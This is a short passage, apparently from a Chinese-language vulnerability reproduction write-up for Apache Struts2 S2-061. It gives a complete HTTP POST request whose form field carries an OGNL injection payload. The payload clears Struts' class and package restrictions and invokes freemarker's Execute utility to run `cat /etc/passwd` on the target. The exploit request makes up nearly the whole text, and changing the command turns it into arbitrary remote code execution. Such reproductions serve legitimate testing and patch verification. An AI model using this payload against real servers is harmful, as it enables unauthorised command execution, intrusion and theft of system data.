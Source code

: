 任意命令执行 PoC，执行 `cat /etc/passwd` 命令

```
POST /index.action HTTP/1.1
Host: your-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("cat /etc/passwd")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![s2-061-3](images/s2-061-3.png)
